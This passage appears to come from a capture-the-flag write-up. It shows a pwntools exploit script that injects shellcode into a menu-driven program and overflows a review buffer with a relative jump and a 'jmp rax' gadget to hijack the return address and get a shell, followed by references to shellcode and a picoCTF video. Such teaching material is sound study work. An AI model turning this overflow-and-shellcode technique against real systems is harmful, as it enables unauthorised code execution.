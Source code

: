 ```python

# Inject shellcode
p.sendlineafter(b'3. Exit the app\n', b'1')
p.sendlineafter(b"What's the new recipient's name: \n", b"\x90" * 8) 

p.sendlineafter(b'3. Exit the app\n', b'2')
p.sendlineafter(b'Which recipient would you like to send a message to?\n', b'0')
p.sendlineafter(b'What message would you like to send them?\n', shellcode)

# jmp -721 code
jmp_bytes = b'\xe9\x2f\xfd\xff\xff'

# Add jmp -721 bytes code (to jump to shellcode) and some padding
payload = jmp_bytes + b'B' * 7 + b'C' * 8
# Overwrite return address with jmp rax gadget
payload += p64(jmp_rax) 

p.sendlineafter(b'3. Exit the app\n', b'3')
p.sendlineafter(b'If you could take a second to write a quick review, we would really appreciate it: \n', payload)

# Access shell
p.interactive() 

```
## References 
- [Shell-Storm - [Linux/x86-64 - Execute /bin/sh - 27 bytes] by Dad`](https://shell-storm.org/shellcode/files/shellcode-806.html)
- [Injecting Shellcode | PicoCTF [37] Shellz by John Hammond](https://www.youtube.com/watch?v=D1yzO0hd5Po&t=229s)
